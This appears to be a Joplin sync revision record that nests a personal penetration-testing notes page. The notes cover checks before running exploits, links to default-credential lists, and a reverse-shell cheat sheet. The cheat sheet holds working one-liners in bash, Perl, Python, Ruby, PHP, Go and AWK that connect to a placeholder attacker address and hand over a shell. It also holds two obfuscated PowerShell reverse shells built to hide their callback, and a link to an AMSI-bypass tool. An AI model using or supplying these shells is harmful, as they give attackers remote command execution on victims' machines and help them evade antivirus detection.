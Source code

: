 id: 39456b1d991c44e5b175b7c95ae125cf
parent_id: 
item_type: 1
item_id: ec8e750de1ef4f6d9be17cb287e5ee5a
item_updated_time: 1646016695766
title_diff: "[{\"diffs\":[[1,\"2a3253c37c6746bf86b107929470c8a6\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 2a3253c37c6746bf86b107929470c8a6\\\r\\\nparent_id: \\\r\\\nitem_type: 1\\\r\\\nitem_id: 83bdabe39eb548a7b6d0737c2851b62e\\\r\\\nitem_updated_time: 1642327759176\\\r\\\ntitle_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"1. General Notes\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":16}]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"## Pre-requisites for runninging exploits\\\\\\\\\\\\\n\\\\\\\\\\\\\n- Check the version of the operating system.\\\\\\\\\\\\\n- Check the software version.\\\\\\\\\\\\\n- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).\\\\\\\\\\\\\n- If you have an exploit, is there a Metasploit Module for it?\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\\\\\\\n## Default Credentials\\\\\\\\\\\\\n\\\\\\\\\\\\\n- https://cirt.net/passwords\\\\\\\\\\\\\n- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials\\\\\\\\\\\\\n\\\\\\\\\\\\\n## Reverse Shells\\\\\\\\\\\\\n\\\\\\\\\\\\\nBash: \\\\\\\\\\\\\n\\\\\\\\\\\\\n- bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1\\\\\\\\\\\\\n\\\\\\\\\\\\\nPerl:\\\\\\\\\\\\\n\\\\\\\\\\\\\n```\\\\\\\\\\\\\nperl -e 'use Socket;$i=\\\\\\\\\\\\\\\"IP ADDRESS\\\\\\\\\\\\\\\";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\\\\\\\\\\\\\\\"tcp\\\\\\\\\\\\\\\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\\\\\\\\\\\\\\\">&S\\\\\\\\\\\\\\\");open(STDOUT,\\\\\\\\\\\\\\\">&S\\\\\\\\\\\\\\\");open(STDERR,\\\\\\\\\\\\\\\">&S\\\\\\\\\\\\\\\");exec(\\\\\\\\\\\\\\\"/bin/sh -i\\\\\\\\\\\\\\\");};'\\\\\\\\\\\\\n```\\\\\\\\\\\\\n\\\\\\\\\\\\\nPython: \\\\\\\\\\\\\n\\\\\\\\\\\\\n- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\\\\\\\\\\\\\"IP ADDRESS\\\\\\\\\\\\\\\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\\\\\\\\\\\\\\"/bin/sh\\\\\\\\\\\\\\\",\\\\\\\\\\\\\\\"-i\\\\\\\\\\\\\\\"]);'\\\\\\\\\\\\\n\\\\\\\\\\\\\nIPv6: \\\\\\\\\\\\\n\\\\\\\\\\\\\n- python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect((\\\\\\\\\\\\\\\"dead:beef:2::125c\\\\\\\\\\\\\\\",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn(\\\\\\\\\\\\\\\"/bin/sh\\\\\\\\\\\\\\\");' \\\\\\\\\\\\\n\\\\\\\\\\\\\nRuby:\\\\\\\\\\\\\n\\\\\\\\\\\\\n- ruby -rsocket -e'f=TCPSocket.open(\\\\\\\\\\\\\\\"IP ADDRESS\\\\\\\\\\\\\\\",1234).to_i;exec sprintf(\\\\\\\\\\\\\\\"/bin/sh -i <&%d >&%d 2>&%d\\\\\\\\\\\\\\\",f,f,f)'\\\\\\\\\\\\\n- ruby -rsocket -e 'exit if fork;c=TCPSocket.new(\\\\\\\\\\\\\\\"[IPADDR]\\\\\\\\\\\\\\\",\\\\\\\\\\\\\\\"[PORT]\\\\\\\\\\\\\\\");while(cmd=c.gets);IO.popen(cmd,\\\\\\\\\\\\\\\"r\\\\\\\\\\\\\\\"){|io|c.print io.read}end'\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\\\\\\\nPHP:\\\\\\\\\\\\\n\\\\\\\\\\\\\nPentest Monkey Reverse Shell for PHP:\\\\\\\\\\\\\nIn Kali: \\\\\\\\\\\\\n\\\\\\\\\\\\\n/usr/share/webshells/php/php-reverse-shell.php\\\\\\\\\\\\\n\\\\\\\\\\\\\nLink: http://pentestmonkey.net/tools/web-shells/php-reverse-shell\\\\\\\\\\\\\n\\\\\\\\\\\\\n- php -r '$sock=fsockopen(\\\\\\\\\\\\\\\"IP ADDRESS\\\\\\\\\\\\\\\",1234);exec(\\\\\\\\\\\\\\\"/bin/sh -i <&3 >&3 2>&3\\\\\\\\\\\\\\\");'\\\\\\\\\\\\\n\\\\\\\\\\\\\nWindows Powershell Oneliner: \\\\\\\\\\\\\n\\\\\\\\\\\\\nNote: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you. \\\\\\\\\\\\\n\\\\\\\\\\\\\n```\\\\\\\\\\\\\n# Offsec-callback-v2\\\\\\\\\\\\\n$ezYSZf = & ((Get-Command \\\\\\\\\\\\\\\"New-ScheduledJobOption\\\\\\\\\\\\\\\").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})(\\\\\\\\\\\\\\\"Check.for.Callback.Connection\\\\\\\\\\\\\\\".Replace(\\\\\\\\\\\\\\\"Check\\\\\\\\\\\\\\\",127).Replace(\\\\\\\\\\\\\\\"For\\\\\\\\\\\\\\\",0+255-255).Replace(\\\\\\\\\\\\\\\"Callback\\\\\\\\\\\\\\\", 0+234-234).Replace(\\\\\\\\\\\\\\\"Connection\\\\\\\\\\\\\\\",0+0+0+1),(443*2-443));\\\\\\\\\\\\\n$VXm = $ezYSZf.GetStream();\\\\\\\\\\\\\n# checkin to target\\\\\\\\\\\\\n[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};\\\\\\\\\\\\\nwhile(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)\\\\\\\\\\\\\n{;\\\\\\\\\\\\\n$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);\\\\\\\\\\\\\n$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );\\\\\\\\\\\\\n# AND\\\\\\\\\\\\\n$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));\\\\\\\\\\\\\n$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);\\\\\\\\\\\\\n$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()\\\\\\\\\\\\\n};\\\\\\\\\\\\\nStart-Sleep -Seconds 5\\\\\\\\\\\\\n# checkout of target\\\\\\\\\\\\\n$ezYSZf.Close()\\\\\\\\\\\\\n```\\\\\\\\\\\\\n\\\\\\\\\\\\\nLinux Powershell Oneliner:\\\\\\\\\\\\\n\\\\\\\\\\\\\n```\\\\\\\\\\\\\n$ezYSZf = & ((\\\\\\\\\\\\\\\"New-ScheduledJobOption\\\\\\\\\\\\\\\")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})(\\\\\\\\\\\\\\\"Stay.Off.Ronins.Lawn\\\\\\\\\\\\\\\".Replace(\\\\\\\\\\\\\\\"Stay\\\\\\\\\\\\\\\",127).Replace(\\\\\\\\\\\\\\\"Off\\\\\\\\\\\\\\\",0+255-255).Replace(\\\\\\\\\\\\\\\"Ronins\\\\\\\\\\\\\\\", 0+1-1).Replace(\\\\\\\\\\\\\\\"Lawn\\\\\\\\\\\\\\\",0+0+0+1),(443*2-443));\\\\\\\\\\\\\n$VXm = $ezYSZf.GetStream();\\\\\\\\\\\\\n[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};\\\\\\\\\\\\\nwhile(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)\\\\\\\\\\\\\n{;\\\\\\\\\\\\\n$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);\\\\\\\\\\\\\n$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );\\\\\\\\\\\\\n$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));\\\\\\\\\\\\\n$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);\\\\\\\\\\\\\n$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()\\\\\\\\\\\\\n};\\\\\\\\\\\\\n$ezYSZf.Close()\\\\\\\\\\\\\n```\\\\\\\\\\\\\n\\\\\\\\\\\\\nGolang: \\\\\\\\\\\\\n\\\\\\\\\\\\\n- echo 'package main;import\\\\\\\\\\\\\\\"os/exec\\\\\\\\\\\\\\\";import\\\\\\\\\\\\\\\"net\\\\\\\\\\\\\\\";func main(){c,_:=net.Dial(\\\\\\\\\\\\\\\"tcp\\\\\\\\\\\\\\\",\\\\\\\\\\\\\\\"IP ADDRESS:8080\\\\\\\\\\\\\\\");cmd:=exec.Command(\\\\\\\\\\\\\\\"/bin/sh\\\\\\\\\\\\\\\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go\\\\\\\\\\\\\n\\\\\\\\\\\\\nAWK: \\\\\\\\\\\\\n\\\\\\\\\\\\\n- awk 'BEGIN {s = \\\\\\\\\\\\\\\"/inet/tcp/0/IP ADDRESS/4242\\\\\\\\\\\\\\\"; while(42) { do{ printf \\\\\\\\\\\\\\\"shell>\\\\\\\\\\\\\\\" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != \\\\\\\\\\\\\\\"exit\\\\\\\\\\\\\\\") close(s); }}' /dev/null\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\\\\\\\nOther Reverse Shell: \\\\\\\\\\\\\nhttps://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\\\\\\\n## Other Resources \\\\\\\\\\\\\n\\\\\\\\\\\\\n- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell \\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":5058}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{\\\"id\\\":\\\"83bdabe39eb548a7b6d0737c2851b62e\\\",\\\"parent_id\\\":\\\"8e7bd5349cf3494986eccd0619b576c9\\\",\\\"latitude\\\":\\\"0.00000000\\\",\\\"longitude\\\":\\\"0.00000000\\\",\\\"altitude\\\":\\\"0.0000\\\",\\\"author\\\":\\\"\\\",\\\"source_url\\\":\\\"\\\",\\\"is_todo\\\":0,\\\"todo_due\\\":0,\\\"todo_completed\\\":0,\\\"source\\\":\\\"joplin-desktop\\\",\\\"source_application\\\":\\\"net.cozic.joplin-desktop\\\",\\\"application_data\\\":\\\"\\\",\\\"order\\\":1617247637997,\\\"user_updated_time\\\":1624814374505,\\\"markup_language\\\":1,\\\"is_shared\\\":0,\\\"share_id\\\":\\\"\\\",\\\"conflict_original_id\\\":\\\"\\\",\\\"master_key_id\\\":\\\"\\\"},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-16T10:15:29.328Z\\\r\\\ncreated_time: 2022-01-16T10:15:29.328Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":6621}]"
metadata_diff: {"new":{"id":"ec8e750de1ef4f6d9be17cb287e5ee5a","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016695755,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.343Z
created_time: 2022-02-28T02:54:22.343Z
type_: 13